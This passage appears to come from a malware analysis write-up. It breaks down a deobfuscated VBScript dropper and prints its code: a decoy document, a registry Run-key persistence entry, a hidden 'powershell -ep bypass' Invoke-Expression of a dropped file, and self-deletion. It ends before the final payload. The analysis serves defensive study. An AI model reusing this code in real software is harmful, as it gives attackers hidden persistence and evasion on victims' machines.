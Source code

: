 ```powershell
dc = "c:\\programdata\\DOC578309.docx"
Set fso = CreateObject("Scripting.Filesystemobject")
Set fp = fso.OpenTextFile(dc, 2, True)
fp.Write ""
fp.Close
Set opsce = CreateObject("Shell.Application")
jsm = "opsce.ShellExecute dc:"
Execute jsm
```
&rarr; In this step, an empty DOC file is created in the ProgramData folder, and the script proceeds to open it using the ShellExecute function. This serves as a decoy or distraction while the actual code is being ran. This is a wonderful technique.

```powershell
kic1 = "ws\\system32\\wscript.exe //" + "b //e:vbscript C:\\ProgramData\\R9147.vbs"" /f"
qoc = "dows\\CurrentVersion\\Run"" /v Winload /t REG_SZ /d ""c:\\windo" + kic1
tmp2 = "KCU\\Software\\Microsoft\\Win" + qoc
untiy = "cmd /c r"
tmp1 = "eg add ""H"
tmp3 = tmp1 + tmp2
trn1 = untiy + tmp3
monce.Run trn1, 0, false
```

&rarr; This part modifies the Windows registry to ensure that a malicious script (R9147.vbs) will be executed every time the system starts. The registry entry is added under the Run key, which is a known technique used by malware to maintain persistence on the victim's machine.

```powershell
untiy = "powershell -ep bypass -command $fn='C:\\ProgramData\\xM578.tmp';$d = Get-Content $fn; Invoke-Expression $d;"
monce.Run untiy, 0, false
```
&rarr; In this section, a PowerShell command is executed to read and run the contents of a file (C:\\ProgramData\\xM578.tmp).

```powershell
s1 = "WS" + "cri"
s2 = "pt.Sleep(2000):Se"
s3 = "ct = CreateOb"
s4 = "DeleteFile"
str1 = s1 + "pt.Sle" + s2 + "t tyhun" + s3 + "ject(""Scripting.FileSystemObject""):tyhunct." + s4 + "(""C:\\ProgramData\\s.vbs""):"
Execute str1

```
&rarr; After executing , the script pauses for two seconds and then deletes itself (C:\\ProgramData\\s.vbs). This cleanup process is designed to remove traces of the script from the system to avoid detection and analysis by security tools. However, the malicious tasks and registry entries remain active.
#### R9147.vbs
- This script is also obfuscated similarly like the previous one and uses the same decoding routine of Ceaser Cipher. We can use the same python script to get the decoded file. After clearing some garbage text. The final payload we're left with is 
